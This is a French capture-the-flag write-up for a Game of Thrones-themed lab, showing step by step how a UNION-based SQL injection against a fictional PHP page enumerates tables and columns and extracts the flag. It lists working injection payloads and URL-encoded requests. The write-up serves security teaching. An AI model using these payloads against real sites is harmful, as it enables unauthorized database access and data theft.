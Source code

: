 ```yaml
---
title: CWE-89 - Injection SQL UNION
next: "/write-ups/wu4"
prev: "/write-ups/wu2"
---
```


# 🗂️ Injection SQL (CWE-89) UNION

## 🎯 Objectif
Grâce au passe récupéré, John infiltre Castral-Roc et découvre un livre verrouillé répertoriant les armes Lannister. Grâce à une injection SQL Union, il y accède et trouve la localisation du feu grégeois, une menace pour la flotte des Stark.

**Flag attendu :** ville:emplacement

---

## ⚙️ Environnement
- **Prérequis :** Etre connecté avec le cookie de session du garde

---

## 🚀 Étape 1 : Déterminer le nombre de colonne de la bdd : 

```sql
' ORDER BY 1 --
```

Ne pas oublier d'encoder l'url : 
**?member=%27+ORDER+BY+1+--+**
Donc :
http://castral-roc.lannisport.south/famillelannister.php?member=%27+ORDER+BY+1+--+

On incrémente le nombre jusqu'a obtenir une erreur, dans notre cas lorsque l'on rentre 3 nous otenons une erreur, ansi le nombre de colonne est le dernier chiffre valide donc 2.

---

## Étape 2 : Identifier les colonnes visibles

```sql
' UNION SELECT 1,2 --
```

Une fois l'url encodée : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+1,2+--+

Ici si nous la bdd nous retourne 1:2 cela indique que nous pouvons exploiter les colonnes 

---

## Étape 3 : Déterminer le nom des tables de la bdd 

```sql
' UNION SELECT table_name,table_schema FROM information_schema.tables --
```

Encodé : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+table_name,table_schema+FROM+information_schema.tables+--+

On trouve ici : 

**battle_ressources : lannisport_db**

**lannister_family : lannisport_db**

---

## Étape 4 : Déterminer le nom des colonnes de la table battle_ressources 

```sql
' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='battle_ressources' --
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+column_name,data_type+FROM+information_schema.columns+WHERE+table_name='battle_ressources'+--+

On trouve : 

**emplacement : varchar**

**id : int**

**type : varchar**

**ville : varchar**

---

## Étape 5 : Extraire l'emplacement du Feu Grégoire
```sql
' UNION SELECT type, CONCAT(ville,' ' ,emplacement) FROM+battle_ressources -- 
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+type,+CONCAT(ville,'+',emplacement)+FROM+battle_ressources+--+

On trouve alors : 

Feu Grégeois : Castral Roc Cave secrète sous la forteresse